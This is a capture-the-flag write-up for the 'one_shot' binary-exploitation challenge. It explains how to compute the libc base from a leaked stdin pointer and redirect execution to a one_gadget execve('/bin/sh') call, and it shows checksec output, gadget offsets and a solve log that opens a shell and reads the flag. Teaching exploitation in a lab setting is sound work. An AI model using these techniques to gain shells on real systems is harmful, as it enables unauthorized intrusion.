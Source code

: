 # one_shot

onegadget

## checksec

```python
[*] '/mnt/c/CTFs/acmcyber/fallgm_2024/one_shot/oneshot'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

Nothing exploitable to be seen here - we're supposed to use a One Gadget. 

## Concept

This challenge involves figuring out the base address of libc (where it was loaded) from a leak of `stdin` (which is a pointer into libc) and then getting the binary to call the One Gadget in libc. 

A One Gadget is a `execve(“/bin/sh”, 0, 0);` call in any executable segment of a process' vaddr space, that if jumped to, immediately spawns a shell for us. 

One Gadgets used to exist in older versions of libc (such as the one provided), but were patched out in subsequent versions for obvious security reasons. 

### one_gadget constraints

The One Gadget finding tool, `one_gadget`, can be found at the link https://github.com/david942j/one_gadget. 

To install the tool (there is no need to clone the repo), just run

```
gem install one_gadget
```

and then run it on the provided libc. There are some constraints for each One Gadget found (see the following output of `one_gadget` on the provided libc)

```
0xe3afe execve("/bin/sh", r15, r12)
constraints:
  [r15] == NULL || r15 == NULL || r15 is a valid argv
  [r12] == NULL || r12 == NULL || r12 is a valid envp

0xe3b01 execve("/bin/sh", r15, rdx)
constraints:
  [r15] == NULL || r15 == NULL || r15 is a valid argv
  [rdx] == NULL || rdx == NULL || rdx is a valid envp

0xe3b04 execve("/bin/sh", rsi, rdx)
constraints:
  [rsi] == NULL || rsi == NULL || rsi is a valid argv
  [rdx] == NULL || rdx == NULL || rdx is a valid envp
```

so if one doesn't work, try the others because the state of the registers at that point may only allow some (or one or none) of the One Gadgets to work. 

## Leaking the libc base address

From [oneshot.c](./oneshot.c), we see that the binary directly gives us the address of `stdin`. 

Note that this is a pointer into libc (i.e. the address is an address in the vaddr pages where libc is loaded to the process space) because the `stdin` and `stdout` FILE structs exist in libc. If more file descriptors are allocated due to, say, calls to `open`, then those FILE structs are allocated on the heap. 

### Figuring out the symbol of `stdin`

The libc symbol of `stdin` can be found using gef and stepping through the execution of [`oneshot`](./oneshot) until `stdin` is loaded into a register. 

The symbol was found to be `_IO_2_1_stdin_`. 

## Flag

```bash
[+] Opening connection to box.acmcyber.com on port 31389: Done
[*] hex(libc.address)='0x7456dc696000'
/mnt/c/CTFs/acmgmCTF_Fall_2024/one_shot/solve.py:33: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  r.sendline(str(one_shot))
[*] Switching to interactive mode
 0)
shoot: $ cat flag.txt
cyber{old_glibcs_are_the_best_glibcs}
```

